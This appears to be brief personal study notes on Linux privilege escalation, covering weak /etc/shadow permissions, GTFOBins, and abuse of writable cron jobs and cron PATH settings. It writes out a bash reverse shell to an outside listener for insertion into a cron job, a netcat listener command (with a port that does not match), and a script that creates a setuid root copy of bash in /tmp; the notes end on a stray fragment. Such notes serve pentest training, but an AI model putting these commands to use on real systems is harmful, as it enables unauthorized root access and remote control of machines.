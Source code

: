 # linux misconfigs

## weak file perms - /etc/shadow

check if `/etc/shadow` is readable or writeable

## shell escape sequences

https://gtfobins.github.io/

## cron jobs - file permissions

make sure cron job is writeable

edit a cron job:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

do this on kali:

```bash
nc -nvlp 444
```

## cron jobs - PATH environment variable

check if easy directories are located in cron job env variable

create a file in that easy directory:

```bash
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

make sure file is executable

```bash
chmod +x /path/to/file.sh
```

wait for cron job to happen

```bash
/
```

